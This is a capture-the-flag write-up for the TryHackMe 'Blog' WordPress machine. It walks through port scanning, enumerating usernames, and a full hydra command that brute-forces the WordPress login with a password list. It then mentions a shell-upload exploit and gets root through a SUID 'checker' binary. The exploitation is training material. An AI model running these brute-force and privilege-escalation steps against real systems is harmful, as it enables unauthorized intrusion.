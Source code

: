 # Blog  
> Billy Joel made a Wordpress blog!  
> Make sure to add ```<your instance IP>  blog.thm``` to your /etc/hosts file  
### Iniital enumeration  

PORT SCAN
```
PORT    STATE SERVICE      REASON  
22/tcp  open  ssh          syn-ack ttl 63  
80/tcp  open  http         syn-ack ttl 63  
139/tcp open  netbios-ssn  syn-ack ttl 63  
445/tcp open  microsoft-ds syn-ack ttl 63  

```
Since this is a wordpress box, we'll use a tool like uniscan to automate directory and file discovery:  

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://blog.thm/admin/
| [+] CODE: 200 URL: http://blog.thm/embed/
| [+] CODE: 200 URL: http://blog.thm/feed/
| [+] CODE: 200 URL: http://blog.thm/login/
| [+] CODE: 200 URL: http://blog.thm/note/
| [+] CODE: 200 URL: http://blog.thm/rss/
| [+] CODE: 200 URL: http://blog.thm/welcome/
| [+] CODE: 200 URL: http://blog.thm/wp-admin/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://blog.thm/admin/index.php
| [+] CODE: 200 URL: http://blog.thm/favicon.ico
| [+] CODE: 200 URL: http://blog.thm/index.php
| [+] CODE: 200 URL: http://blog.thm/license.txt
| [+] CODE: 200 URL: http://blog.thm/readme.html
| [+] CODE: 200 URL: http://blog.thm/robots.txt
| [+] CODE: 200 URL: http://blog.thm/search/htx/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/htx/sqlqhit.asp
| [+] CODE: 200 URL: http://blog.thm/search/SQLQHit.asp
| [+] CODE: 200 URL: http://blog.thm/search/sqlqhit.asp
===================================================================================================
```
Looking at the blog, we see there's an author called Karen Wheeler.
![image](https://user-images.githubusercontent.com/65077960/124903055-793ffa80-dfdb-11eb-9fed-3f1ea59192a4.png)

Looking at the URL of her author page, we can see the username kwheel, we'll take a note of that as we may be able ot use that in futurue.
Following the syntax of her username, we can infer that Billy Joel's username is probably bjoel, let's try it.
![image](https://user-images.githubusercontent.com/65077960/124903691-1f8c0000-dfdc-11eb-9eaa-a8b369d632df.png)

So we have two usernames that we can potentially use. Let's try bruteforce kwheels' password.
## User & root own 
```
hydra -l kwheel -P rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -V
```
We have to specify the criteria of a failed attempt since Wordpress doesn't give us a HTTP code such as 403, it always returns 200.
![image](https://user-images.githubusercontent.com/65077960/124904699-2ebf7d80-dfdd-11eb-9533-6e1a755339d9.png)
  
After logging in, we can see there's not a great deal here. Let's take a step back and look at the wordpress version (5.0.0).
We can google the version and see associated exploits.
![image](https://user-images.githubusercontent.com/65077960/124905832-5531e880-dfde-11eb-8b30-d18f78c06c81.png)
Looking at exploitDB, we can see there's a shell upload vuln that we can use (now that we have credentials). Let's try it.
![image](https://user-images.githubusercontent.com/65077960/124906774-57e10d80-dfdf-11eb-8623-ee049ded9864.png)

Immediately we see a wp-config file, that we can use to grab a password out of. We don't need this but it's good to take note of.
Since we know the user flag isn't going to be in a home directory, let's try escalate our priveleges and then look around:
```
find / -perm -u=s -type f 2>/dev/null
```
We see a strange binary called "checker", we'll investigate it:
![image](https://user-images.githubusercontent.com/65077960/124907519-2caaee00-dfe0-11eb-84a7-c4d1f512b572.png)

Using a command like ltrace, we can watch what it does.
![image](https://user-images.githubusercontent.com/65077960/124907630-4ea47080-dfe0-11eb-872f-f3c93cd09b49.png)
We can see it's looking for an environment variable called admin, let's try setting it and rerun it.
![image](https://user-images.githubusercontent.com/65077960/124907735-6a0f7b80-dfe0-11eb-8494-b6f3c6a85b5f.png)
This allows us to escelate our privelleges to root and navigate the machine freely.

Root's flag is in /root/ (as usual)
User's flag, we still have to search for. We can do this manually or we can use a command like "find" to make things easier.
```
find / 2>/dev/null | grep user.txt
```
We're given the file path of the user flag, which we can submit to TryHackMe.
